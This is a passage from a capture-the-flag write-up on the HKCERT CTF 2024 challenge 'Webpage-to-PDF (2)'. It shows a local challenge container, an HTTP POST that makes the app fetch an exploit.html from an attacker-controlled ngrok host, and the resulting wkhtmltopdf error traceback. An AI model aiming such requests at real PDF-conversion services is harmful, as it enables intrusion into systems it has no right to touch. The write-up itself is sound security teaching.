 ```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/Webpage-to-PDF-(2))-[2024.11.14|20:27:32(HKT)]
└> docker compose up    
[...]
Attaching to chal-1
chal-1  |  * Serving Flask app 'main'
chal-1  |  * Debug mode: off
chal-1  | WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
chal-1  |  * Running on all addresses (0.0.0.0)
chal-1  |  * Running on http://127.0.0.1:5000
chal-1  |  * Running on http://172.19.0.2:5000
chal-1  | Press CTRL+C to quit
```

Then, we send the same request again, and we should see an error in our Docker container's log message:

Request:

```http
POST /process HTTP/1.1
Host: localhost:5000
Cookie: session_id=foo
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

url=https://1ea2-{REDACTED}.ngrok-free.app/exploit.html
```

Error message:

```shell
chal-1  | [2024-11-14 12:29:53,271] ERROR in app: Exception on /process [POST]
chal-1  | Traceback (most recent call last):
[...]
chal-1  |   File "main.py", line 50, in process_url
chal-1  |     pdfkit.from_string(response.text, pdf_file)
chal-1  |   File "/usr/local/lib/python3.8/dist-packages/pdfkit/api.py", line 75, in from_string
chal-1  |     return r.to_pdf(output_path)
chal-1  |   File "/usr/local/lib/python3.8/dist-packages/pdfkit/pdfkit.py", line 201, in to_pdf
chal-1  |     self.handle_error(exit_code, stderr)
chal-1  |   File "/usr/local/lib/python3.8/dist-packages/pdfkit/pdfkit.py", line 155, in handle_error
chal-1  |     raise IOError('wkhtmltopdf reported an error:\n' + stderr)
chal-1  | OSError: wkhtmltopdf reported an error:
chal-1  | QStandardPaths: XDG_RUNTIME_DIR not set, defaulting to '/tmp/runtime-root'
chal-1  | Exit with code 1 due to network error: ProtocolUnknownError
```

As we can see, pdfkit raised an `IOError` exception with message "Exit with code 1 due to network error: ProtocolUnknownError".

Hmm... Wait, what is pdfkit in the first place?

> Python 2 and 3 wrapper for wkhtmltopdf utility to convert HTML to PDF using Webkit. - [https://pypi.org/project/pdfkit/](https://pypi.org/project/pdfkit/)
